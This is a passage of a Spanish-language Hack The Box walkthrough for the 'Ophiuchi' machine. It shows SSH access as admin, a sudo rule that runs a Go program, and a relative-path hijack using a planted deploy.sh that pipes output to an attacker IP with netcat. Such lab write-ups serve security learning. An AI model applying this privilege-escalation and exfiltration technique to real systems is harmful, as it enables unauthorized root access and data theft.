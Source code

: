 
  Ya con las credenciales del usuario **admin** y recordando que el puerto **22** esta abierto uso estas credenciales para acceder por **ssh**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/ssh.png">
  </p>

 Podemos ver que las credenciales son validas para entrar por **ssh** y con el usuario **admin**, si enumeramos el sistema para encontrar una potencial ruta para escalar privilegios podemos ver que el usuario **admin** puede tiene permisos a nivel de sudo sin proporcionar contraseña y como el usuario **root** el siguiente permiso:

 ```bash
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go

 ```

 Al examinar el archivo **index.go** se puede ver que la llamada de **deploy.sh** y **main.wasm** esta siendo llamadas de forma relativa por lo que a l ahora de ejecutar este comando tomaría los archivos desde la ruta en la que nos encontremos y podemos aprovechar esto para poder crear un archivo **deploy.sh** que sea ejecutado a nuestra conveniencia.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/info.png">
 </p>

 Como se puede ver en el código para que a la hora de hacer el comando nos ejecute **deploy.sh** en **"main.wasm"** la instancia llamada **"info"** debe valer **1**, para comprobar si esto es así me cree un directorio en la ruta **/tmp/winsad** y ahí cree mi **deploy.sh** con el siguiente contenido:

 ```bash
 #!/bin/bash

 whoami | nc 10.10.15.125 443
 ```  

 Lo que estoy indicando es que si el archivo **main.wasm** que esta en la ruta **/opt/wasm-functions/** tiene el valor seteado de **$info** en **1** a la hora de hacer el comando con sudo me enviara un whoami a mi maquina. Para esto pase el **main.wasm** a **/tmp/winsad** con el comando cp:

```python
admin@ophiuchi:/opt/wasm-functions$ ll
total 3928
drwxr-xr-x 3 root root    4096 Oct 14  2020 ./
drwxr-xr-x 5 root root    4096 Oct 14  2020 ../
drwxr-xr-x 2 root root    4096 Oct 14  2020 backup/
-rw-r--r-- 1 root root      88 Oct 14  2020 deploy.sh
-rwxr-xr-x 1 root root 2516736 Oct 14  2020 index*
-rw-rw-r-- 1 root root     522 Oct 14  2020 index.go
-rwxrwxr-x 1 root root 1479371 Oct 14  2020 main.wasm*
admin@ophiuchi:/opt/wasm-functions$ cp main.wasm /tmp/winsad/main.wasm
admin@ophiuchi:/opt/wasm-functions$ cd /tmp/winsad/
admin@ophiuchi:/tmp/winsad$ ls
main.wasm
admin@ophiuchi:/tmp/winsad$ md5sum /opt/wasm-functions/main.wasm
25a1a35c819577d06c8cc751bf9a2ea3  /opt/wasm-functions/main.wasm
admin@ophiuchi:/tmp/winsad$ md5sum main.wasm
25a1a35c819577d06c8cc751bf9a2ea3  main.wasm

```